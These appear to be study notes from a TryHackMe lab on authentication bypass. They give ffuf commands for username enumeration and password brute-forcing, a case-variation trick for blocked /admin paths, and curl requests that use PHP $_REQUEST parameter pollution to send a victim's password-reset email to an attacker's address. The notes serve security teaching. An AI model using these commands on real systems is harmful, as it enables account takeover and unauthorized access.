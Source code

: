 # Authentication Bypass
## Username Enumeration
- Try a random username that probably does not exist, and then try one that probably exists, is there a different error?
````
jksaljkfl <- username that does not exist
admin <- username that probably exists
guest <- another potential username
````
- We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below
- The ffuf tool uses a list of commonly used usernames to check against for any matches.
- Capture the request in `Burp` to find the `Content-Type`, whether its a `GET` or `POST`
````
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
````
- `-w` -> selects the file's location
- `-X` -> argument specifies the request method
- `-d` -> the data that we are going to send
- `FUZZ` -> keyword signifies where the contents from our wordlist will be inserted in the request
- `-H` -> for adding additional headers to the request
- `-u` ->  specifies the URL we are making the request to
- `-mr` -> is the text on the page we are looking for to validate we've found a valid username
## Password Brute force attack
````
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````
- Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.
- `W1` -> for our valid list of usernames
- `W2` -> for the list of passwords we are going to try
- `-w` -> the multiple word lists are also specified with this flag
- `-fc` -> this argument check for an HTTP status code other than a 200
## Authentication Bypass Logic Flaw
- If a specific url is blocked without authentication like `/admin`, depending on the code you may be able to bypass it.
- Try:
````
/adMin
/aDmIn
````
### Finding password reset forms
- If there is an option always make an account. There could be pages you have access to that you otherwise would not.
- Also if there is a password reset option on the site you might be able to get their password reset link sent to you.
- ![alt text](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/f457baf00c357990014739bd6bce5b75.png)
- Use curl to figure out how the parameters are passed to the server, in this example the username is a `POST` field and the email address is a `GET` field
````
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
````
- `-H` -> to add an additional header to the request.  In this case we are setting the `Content-Type` to `application/x-www-form-urlencoded`
- Can find this out in burp, or set something ourselves
- The `PHP $_REQUEST` variable is an array that contains data received from the query string and POST data. - If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form
- We can control where the password reset email gets delivered.
````
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
````
- ![alt text](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3d97e3e37bf9e4db4f95f4f945a7e290.png)
- Now re-running the curl command we can alter where the reset link is sent
````
curl 'http://10.10.115.78/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
````






































































